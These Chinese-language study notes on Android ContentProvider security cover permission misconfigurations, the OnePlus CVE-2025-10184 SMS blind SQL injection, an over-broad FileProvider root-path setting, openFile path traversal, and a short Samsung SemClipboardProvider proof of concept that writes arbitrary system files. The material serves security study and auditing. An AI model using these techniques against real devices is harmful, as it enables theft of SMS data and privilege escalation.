漏洞影响某款 Android 盒子固件（MXQ TV Box 4.4.2，搭载 Android 4.4.2）中的系统应用。设备内有一个导出的广播接收器组件 com.android.server.SystemRestoreReceiver，**无需权限**即可被任意应用触发。触发后，Receiver向 /cache/recovery/command 写入特定命令（如 “–restore_system\n–locale=”），然后设备启动进入 recovery 模式，系统分区可被格式化或破坏，导致设备无法正常启动。

# ContentProvider

## 核心接口

ContentProver是应用中数据的提供者，便于应用间的数据共享，其子类通常要实现或者覆盖下面六个方法

1. `onCreate()`

   初始化 Provider（打开/初始化 DB helper、资源等）。在 ContentProvider 被第一次访问之前或应用启动时调用。

2. `query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder)`

   读取数据（SELECT）。注意：selection + selectionArgs 应使用参数化 API，避免字符串拼接。

3. `insert(Uri uri, ContentValues values)`

   插入数据（INSERT）。

4. `update(Uri uri, ContentValues values, String selection, String[] selectionArgs)`

   更新数据（UPDATE）。同样注意 selection 的安全性。

5. `delete(Uri uri, String selection, String[] selectionArgs)`

   删除数据（DELETE）。

6. `getType(Uri uri)`

   返回指定 URI 的 MIME 类型（如 vnd.android.cursor.dir/vnd.example.item），用于 Intent 等场景。

## Permissions

Provider是数据的载体，其安全访问与权限控制是重中之重。应用中的Provider必须要在**Manifest**中进行声明。`permission`属性表示访问Provider所需的权限，也可以分别对读写使用不同的权限，比如`readPermission`和`writePermission`属性。

```xml
<provider
    android:name=".MyProvider"
    android:authorities="com.example.provider"
    android:exported="false"
    android:permission="com.example.permission.MY_PROVIDER"
    android:readPermission="android.permission.READ_SMS"
    android:writePermission="android.permission.WRITE_SMS"
    android:grantUriPermissions="true">
    
    <grant-uri-permission android:pathPrefix="/public/"/>
</provider>
```

- android:exported：是否允许外部进程访问（true/false）。尽量 false，必要时为 true 并严格配权限。
- android:permission：访问该 Provider 任意操作（读写）所需的权限（通用）。
- android:readPermission / android:writePermission：分别针对读/写操作的权限，细粒度控制。
- android:grantUriPermissions：是否允许通过 Intent 标记（FLAG_GRANT_*_URI_PERMISSION）或 grantUriPermission() 动态授予 URI 访问。
- grant-uri-permission：声明允许被临时授权的 URI 子集（path, pathPrefix, pathPattern）。


## 常见利用模式

1. **exported=true 权限配置不当**

   → 任意 App 可直接调用 query/insert/update/delete。

   *举例*：导出 Telephony Provider，任意 App 读写短信。

2. **只配置 readPermission 而未设置 writePermission（或反之）**

   → 攻击者绕过缺失的权限路径（比如用写路径做盲注来“读”数据，或写入恶意数据）。

   下方的CVE 案例正是利用写路径无权限而做盲注。

3. **grantUriPermissions/ grant-uri-permission 配置不当**

   - 过宽的 pathPattern=".*" 或允许任意 URI 被授权，会导致临时授予变成任意访问通道。
   - 被授权后会**无视** exported / readPermission 检查（短期内可访问）。

4. **SQL 注入 / 拼接** **selection**

   - 直接把 selection 字符串拼入 SQL；攻击者传入子查询或逻辑条件做盲注/数据外推。

5. **没有在代码层再次校验权限**

   - 仅依赖 manifest 声明是不够的；实现中应该 enforceCallingPermission 做二次校验（尤其是系统/定制 ROM）。

6. **文件暴露与写入导致沙盒逃逸 / RCE**

   - Provider 写入可被 App 控制的路径（如覆盖 dex、so、配置文件）→ 可能导致代码注入或提升权限。

7. **Intent 劫持 / 欺骗**

   - 恶意 App 构造或拦截授予流程（startActivityForResult）从而获得授予的 URI。

   

> - Manifest 审查：
>
>   - exported 是否为 true？是否必要？
>   - 是否配置了 readPermission / writePermission / permission？
>   - grantUriPermissions 与 <grant-uri-permission> 的路径是否过宽？
>
> - 代码审查：
>
>   - query/insert/update/delete 中是否调用 enforceCallingPermission？
>   - 是否对 selection 使用参数化 selectionArgs？有没有直接字符串拼接？
>   - 是否有 openFile/openAssetFile 将文件暴露到外部可写入路径？
>   - 是否允许 applyBatch/call() 执行危险操作？
>
>   

## 案例：CVE-2025-10184

https://www.rapid7.com/blog/post/cve-2025-10184-oneplus-oxygenos-telephony-provider-permission-bypass-not-fixed/

OnePlus 在定制的Telephony Provider 里**额外暴露了 3 个导出的 Provider**，未正确实施权限/参数校验，导致**任意已安装 App**（无需 READ_SMS 授权、无需用户交互）就能读取设备的 **SMS/MMS** 数据与元数据；同时存在**SQL 注入面**。该问题确认影响 OxygenOS 12/14/15 多机型（如 8T、10 Pro），OxygenOS 11 未复现；厂商已在 2025-10-11 起分批推送修复

**一加把 3 个 Telephony Provider（PushMessageProvider、PushShopProvider、ServiceNumberProvider）导出了（exported="true"），但只配置了 android:readPermission="android.permission.READ_SMS"，没有为“写操作”再单独配置 writePermission/permission。**

而这几个 Provider **实现了 update()/insert() 等写接口**，同时把客户端传入的 where/selection **直接拼到 SQL** 里（可注入）。于是外部应用即便**没有 READ_SMS**，也能调用**不受权限保护**的 update()，用 **“盲注”** 的方式把短信表里的数据“读”出来。


com.android.providers.telephony.ServiceNumberProvider

update方法

```java
public class ServiceNumberProvider extends ContentProvider
{
	private static final String TAG;
	private static final UriMatcher URI_MATCHER;
	private static final int URI_SERVICE_NUMBER = 100;
	private static final int URI_SERVICE_NUMBER_MESSAGE = 101;
	private MmsSmsDatabaseHelper mOpenHelper;

	private static UriMatcher buildUriMatcher() {
		final UriMatcher uriMatcher = new UriMatcher(-1);
		uriMatcher.addURI("service-number", "service_number", 100);
		uriMatcher.addURI("service-number", "service_number/#", 101);
		return uriMatcher;
	}

	// ...

	public int update(final Uri uri, final ContentValues contentValues, final String s, final String[] array) {
		final SQLiteDatabase writableDatabase = this.mOpenHelper.getWritableDatabase();
		final int match = ServiceNumberProvider.URI_MATCHER.match(uri);
		int n;
		if (match != 100) { // [1]
			n = 0;
		if (match == 101) {
			try {
				n = writableDatabase.update("service_number", contentValues, "_id = ? ", new String[] { String.valueOf(Long.parseLong(uri.getLastPathSegment())) });
			}
			catch (NumberFormatException ex) {
				Log.e(ServiceNumberProvider.TAG, "Row ID must be a long.");
			}
		}
	}
	else {
    // 这里将调用方传入的 where（s）未经任何校验直接拼到 SQL
		n = writableDatabase.update("service_number", contentValues, s, array); // [2]
	}
	return n;
	}
}
```

update接口：第三个是where条件


```java
public Uri insert(Uri uri, final ContentValues values) {
    final SQLiteDatabase db = this.mOpenHelper.getWritableDatabase();
    final int match = ServiceNumberProvider.URI_MATCHER.match(uri);
    if (match == 100) {
        long insert = db.insert("service_number", null, values); // 可被任意应用调用
        // ...
    }
    return /* ... */;
}
```

这样依赖，在该手机上的一个任意APP，即使其没有SMS读的功能，也能无权限访问`ServiceNumberProvider`，进而利用其接口存在的SQL漏洞进行注入，从而查询到短信内容。

## FileProvider

系统提供了 `FileProvider` 来方便应用自定义文件分享和访问，但是使用不当的话很可能会出现任意文件读写的问题。

FileProvider提供了使用 XML 去指定文件访问控制的功能，一般 Provider 应用只需继承 FileProvider 类。

AndroidManifest.xml

```xml
<application ...>
    <provider
        android:name="androidx.core.content.FileProvider"
        android:authorities="com.myapp.fileprovider"
        android:grantUriPermissions="true"
        android:exported="false">
        <meta-data
            android:name="android.support.FILE_PROVIDER_PATHS"
            android:resource="@xml/file_paths" />
    </provider>
</application>
```

- android:authorities：唯一标识该 Provider 的权限域。
- android:grantUriPermissions="true"：允许将 URI 权限临时授予其它应用。
- android:exported="false"：通常设为 false，因为你并不希望直接通过 content://authority 被任意外部应用调用，而是通过 URI 授权机制。

`res/xml/file_paths.xml`

```xml
<paths xmlns:android="http://schemas.android.com/apk/res/android">
    <files-path name="shared_files" path="shared/" />
    <cache-path name="cache_files" path="cache/" />
    <!-- 也可能有external-files-path, external-cache-path等 -->
</paths>
```

- `<files-path> `指向你应用内部 files/ 目录下的 shared/ 子目录。
- 避免使用 `<root-path path="."/>` 或` <root-path path="/" />`，因为配置过宽会导致安全风险。

代码生成URI

```java
File file = new File(context.getFilesDir(), "shared/report.pdf");
Uri uri = FileProvider.getUriForFile(context, "com.myapp.fileprovider", file);
Intent intent = new Intent(Intent.ACTION_SEND);
intent.setType("application/pdf");
intent.putExtra(Intent.EXTRA_STREAM, uri);
intent.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
startActivity(Intent.createChooser(intent, "Share report"));
```

### 案例：TickTok FileProvider路径配置不当

```xml
<provider android:name="android.support.v4.content.FileProvider" android:exported="false" android:authorities="com.zhiliaoapp.musically.fileprovider" android:grantUriPermissions="true">
        <meta-data android:name="android.support.FILE_PROVIDER_PATHS" android:resource="@xml/k86"/>
    </provider>
```

`xml/k86.xml`的内容如下

```xml
<?xml version="1.0" encoding="utf-8"?>
<paths xmlns:amazon="http://schemas.amazon.com/apk/res/android" xmlns:android="http://schemas.android.com/apk/res/android" xmlns:app="http://schemas.android.com/apk/res-auto">
    <root-path name="name" path=""/>
    <external-path name="share_path0" path="share/"/>
    <external-path name="download_path2" path="Download/"/>
    <cache-path name="gif" path="gif/"/>
    ...
</paths>
```

- `<root-path name="name" path=""/> `—— 指的是“根路径”，即设备内几乎所有路径都可能被映射。
- external-path + cache-path 等也开放了较宽的路径。
- android:grantUriPermissions="true" 表明 URI 权限可以被授予给其他应用。
- 虽然 android:exported="false" 表示这个 Provider **本身**不被外部直接调用，但 grantUriPermissions 仍允许通过 content://authority/… URI 访问。


## 隐藏方法

在ContentProvider类中，除了前面说过的6个必须实现的方法，还有一些其他隐藏的方法，一般使用默认实现，也可以被子类覆盖实现，比如

- openFile
- openFIleHelper
- call
- ...

### openFIle

如果 ContentProvider 想要实现共享文件读写的功能，还可以通过覆盖 `openFile` 方法去实现，该方法的默认实现会抛出 `FileNotFoundException` 异常。虽然开发者实现上不太会直接就返回打开的本地文件，而是有选择地返回某些子目录文件。但是如果代码写得不严谨，就可能会出现路径穿越等问题，

```java
 @Override
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    File file = new File(getContext().getFilesDir(), uri.getPath());
    if(file.exists()){
        return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
    }
    throw new FileNotFoundException(uri.getPath());
}
```

### openFileHelper

这个函数的默认实现是使用当前 Provider 中的 `_data` 列数据去打开文件。

```java
protected final @NonNull ParcelFileDescriptor openFileHelper(@NonNull Uri uri,
        @NonNull String mode) throws FileNotFoundException {
    Cursor c = query(uri, new String[]{"_data"}, null, null, null);
    int count = (c != null) ? c.getCount() : 0;
    if (count != 1) {
        // If there is not exactly one result, throw an appropriate
        // exception.
        if (c != null) {
            c.close();
        }
        if (count == 0) {
            throw new FileNotFoundException("No entry for " + uri);
        }
        throw new FileNotFoundException("Multiple items at " + uri);
    }

    c.moveToFirst();
    int i = c.getColumnIndex("_data");
    String path = (i >= 0 ? c.getString(i) : null);
    c.close();
    if (path == null) {
        throw new FileNotFoundException("Column _data not found.");
    }

    int modeBits = ParcelFileDescriptor.parseMode(mode);
    return ParcelFileDescriptor.open(new File(path), modeBits);
}
```

假如攻击者可以先插入`_data`，再调用该接口，即可实现任意文件读写。

#### 案例：三星SemClipboardProvider

https://googleprojectzero.blogspot.com/2022/11/a-very-powerful-clipboard-samsung-in-the-wild-exploit-chain.html

三星在其`system server`进程中创建了一个自定义的剪切板contentProvider。这个`system_server`具有很高的权限（system）。这个Provider的声明如下

```xml
<provider android:name="com.android.server.semclipboard.SemClipboardProvider" android:enabled="true" android:exported="true" android:multiprocess="false" android:authorities="com.sec.android.semclipboardprovider" android:singleUser="true"/>
```

对于普通的应用组件的定义，我们通常可以在Manifest的声明中添加`android:permission`属性来指定“调用该组件需要的权限”，但是这里并没有这么做，因此任意一个三方app都可以访问这个导出的Provider。

在`ClipboardImageTable`定义了两列，`id`和`_data`，而其`insert`方法并没有对外部输入进行校验。这就意味着任何app都可以调用这个`insert`方法直接修改`_data`列的值。

```java
    public Uri insert(Uri uri, ContentValues values) {
        long row = this.database.insert(TABLE_NAME, "", values);
        if (row > 0) {
            Uri newUri = ContentUris.withAppendedId(CONTENT_URI, row);
            getContext().getContentResolver().notifyChange(newUri, null);
            return newUri;
        }
        throw new SQLException("Fail to add a new record into " + uri);
    }
```

再结合`openFileHelper`就可以实现任意文件读写

```java
ContentValues vals = new ContentValues();
vals.put("_data", "/data/system/users/0/newFile.bin");
URI semclipboard_uri = URI.parse("content://com.sec.android.semclipboardprovider")
ContentResolver resolver = getContentResolver();
URI newFile_uri = resolver.insert(semclipboard_uri, vals);
return resolver.openFileDescriptor(newFile_uri, "w").getFd(); 
```

上面的Poc利用这个组件的漏洞在`/data/system/users/0/`下创建了新文件，在Android中正常情况下由于安全沙箱的特性，这个操作是不允许的，但攻击者通过上述代理机制，**获得了一个合法打开该文件的 fd**。


### call

ContentProvider 中提供了 `call` 方法，用于实现调用服务端定义方法，其函数签名如下

```java
public Bundle call (String authority, 
                String method, 
                String arg, 
                Bundle extras)
public Bundle call (String method, 
                String arg, 
                Bundle extras)
```


# REF

https://evilpan.com/2022/11/13/android-bugs/#%E5%9B%9B%E5%A4%A7%E7%BB%84%E4%BB%B6

https://www.rapid7.com/blog/post/cve-2025-10184-oneplus-oxygenos-telephony-provider-permission-bypass-not-fixed/

https://bbs.kanxue.com/thread-269255.htm

https://developer.android.com/privacy-and-security/risks?hl=zh-cn

https://github.com/WindXaa/Android-Vulnerability-Mining